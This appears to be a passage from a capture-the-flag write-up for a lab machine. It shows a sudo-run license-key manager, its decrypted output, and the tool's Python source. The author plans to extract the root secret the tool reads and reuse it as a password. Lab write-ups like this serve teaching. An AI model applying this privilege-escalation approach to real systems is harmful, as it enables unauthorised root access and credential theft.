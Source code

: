 ```bash
cooper@format:/usr/bin$ sudo /usr/bin/license -c 'gAAAAABkaNcxKqkvhqKsyP2hBWdnDVxkP-T1YxUWust-6UEzL0HToC0q_iYv1cJcEuZHAOqZsC0_dxtC_yhrZpUKPuokCLqCONHVFtd6QZVHOgEPId8MDybhl-XrVs-SV_uvlZsgw5MixGNuxnQ90QAuRM6g_7k11bljq_idNuD2VPxkL794qWo='

License key valid! Decrypted value:
------------------------------------------------------
microblogblnkn.HO[Vh.t4=]hEo~U-q}z_E_0M5TcSfPa;7_dV2zZblnknblnkn
```

It's fair to assume that what we're after is the `secret_encoded` variable which is reading from `/root/license/secret`   
Technically it's the secret used to encode the license keys, but we know cooper is a password reuse ninja so... It's worth a shot.  
```python
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
import sys

class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

if os.geteuid() != 0:
    print("")
    print("Microblog license key manager can only be run as root")
    print("")
    sys.exit()

parser = argparse.ArgumentParser(description='Microblog license key manager')
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument('-p', '--provision', help='Provision license key for specified user', metavar='username')
group.add_argument('-d', '--deprovision', help='Deprovision license key for specified user', metavar='username')
group.add_argument('-c', '--check', help='Check if specified license key is valid', metavar='license_key')
args = parser.parse_args()

r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')

secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

f = Fernet(encryption_key)
l = License()

#provision
```